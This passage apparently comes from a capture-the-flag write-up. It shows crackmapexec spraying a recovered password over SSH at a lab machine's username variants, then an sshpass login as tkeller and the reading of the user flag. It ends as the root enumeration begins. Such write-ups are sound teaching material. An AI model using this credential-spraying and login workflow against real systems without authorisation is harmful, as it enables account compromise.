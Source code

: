 #### Brute

To quickly check these, I’ll use `crackmapexec`:

```

crackmapexec ssh 10.10.11.206 -u usernames -p denjanjade122566
SSH         10.10.11.206    22     10.10.11.206     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
SSH         10.10.11.206    22     10.10.11.206     [-] thomas:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomaskeller:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomas.keller:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomaske:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomkell:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomask:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] t.keller:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [+] tkeller:denjanjade122566

```

It finds a match for tkeller.

#### Shell

Now I’ll connect with SSH:

```

oxdf@hacky$ sshpass -p denjanjade122566 ssh tkeller@10.10.11.206
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-67-generic x86_64)
...[snip]...
tkeller@socket:~$ 

```

And get `user.txt`:

```

tkeller@socket:~$ cat user.txt
89005f4e************************

```

## Shell as root

### Enumeration

#### sudo
